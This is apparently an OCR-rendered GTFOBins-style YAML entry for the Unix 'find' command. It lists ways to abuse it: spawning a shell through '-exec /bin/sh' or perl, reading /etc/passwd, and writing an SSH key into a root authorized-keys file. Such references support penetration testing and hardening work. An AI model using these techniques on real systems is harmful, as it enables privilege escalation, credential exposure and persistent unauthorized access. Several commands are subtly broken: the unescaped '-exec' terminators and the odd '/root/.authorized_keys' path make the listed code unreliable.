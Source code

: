 ```yaml
---
functions:
  shell:
    - description: Can be used to execute arbitrary commands on a system and spawn shells either indirectly
      code: |
        find . -name i_do_not_exist -or -exec perl -e 'exec sh' ; -quit
    - description: or directly.
      code: |
        find . -exec /bin/sh ; -quit
  command:
    - description: Can be used to execute arbitrary commands on a system.
      code: |
        find . -name i_do_not_exist -or -exec ls ; -quit
  file-read:
    - description: Reading of files is possible by executing cat.
      code: |
        find /etc/passwd -exec cat {} ;
  file-write:
    - description: Find has various capabilities to write to files and it is recommended to read the manual for more details, especially its fprintf and 'UNUSUAL FILENAMES' sections.
      code: |
        find . -fprintf /root/.authorized_keys 'ssh-rsa ...' -quit
---
```

